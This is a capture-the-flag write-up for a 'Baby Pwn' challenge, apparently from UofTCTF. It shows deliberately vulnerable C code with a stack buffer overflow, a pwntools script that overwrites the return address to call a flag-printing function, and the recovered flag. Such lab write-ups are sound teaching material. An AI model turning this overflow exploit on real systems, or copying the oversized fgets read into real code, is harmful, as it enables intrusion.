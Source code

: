 https://ctftime.org/event/2570

# Baby Pwn (PWN)

Here's a baby pwn challenge for you to try out. Can you get the flag?

nc 34.162.142.123 5000

## Analysis

`main` leaks the absolute address of `secret` for us:

```c
printf("Address of secret: %p\n", secret);
```

`vulenrable_function` allows us to control the return address on the stack:

```c
void vulnerable_function()
{
    char buffer[64];
    printf("Enter some text: ");
    fgets(buffer, 128, stdin);
    printf("You entered: %s\n", buffer);
}
```

`secret` prints the flag:

```c
void secret()
{
    printf("Congratulations! Here is your flag: ");
    char *argv[] = {"/bin/cat", "flag.txt", NULL};
    char *envp[] = {NULL};
    execve("/bin/cat", argv, envp);
}
```

## Solution

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./baby-pwn", checksec=False)
context.binary = elf

#p = elf.process()
#p = elf.debug(gdbscript="")
p = remote("34.162.142.123", 5000)

p.readuntil(b"secret: ")
elf.sym["secret"] = int(p.readline().decode(), 16)

payload = b"A" * 0x48
payload += p64(elf.sym["secret"])
p.sendlineafter(b"Enter some text: ", payload)

p.readuntil(b"flag: ")
log.success(p.readline().decode())
# uoftctf{buff3r_0v3rfl0w5_4r3_51mp13_1f_y0u_kn0w_h0w_t0_d0_1t}
```

## Flag
`uoftctf{buff3r_0v3rfl0w5_4r3_51mp13_1f_y0u_kn0w_h0w_t0_d0_1t}`

smiley 2025/01/12
